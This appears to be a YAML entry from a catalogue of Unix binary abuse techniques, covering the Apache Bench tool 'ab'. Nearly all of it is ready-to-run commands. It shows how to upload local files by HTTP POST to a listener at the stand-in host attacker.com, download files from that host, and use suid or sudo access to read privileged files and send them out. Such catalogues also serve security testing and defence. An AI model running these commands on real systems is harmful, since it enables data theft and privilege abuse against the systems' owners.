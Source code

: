 ```yaml
---
functions:
  file-upload:
    - description: Upload local file via HTTP POST request. Run a listener on the attacker box to collect the file. Adjust "-s timeout" and "-t timelimit" as needed.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -s3 -t3 -n1 -p $LFILE $URL
  file-download:
    - description: Limited download capability. Can download text files with limited length in verbose mode. Cleanup local file after download. 
      code: |
          URL=http://attacker.com/file_to_download
          LFILE=file_to_save
          ab -v3 -n1 $URL > $LFILE
  suid:
    - description: does not drop privileges. Combine with file-upload to read files.
      code: |
         URL=http://attacker.com/
         LFILE=file_to_read
         ab -s3 -t3 -n1 -p $LFILE $URL
  sudo:
    - description: does not drop privileges. Combine with file-upload to read files.
      code: |
          URL=http://attacker.com/
          LFILE=file_to_read
          sudo ab -s3 -t3 -n1 -p $LFILE $URL
---
```

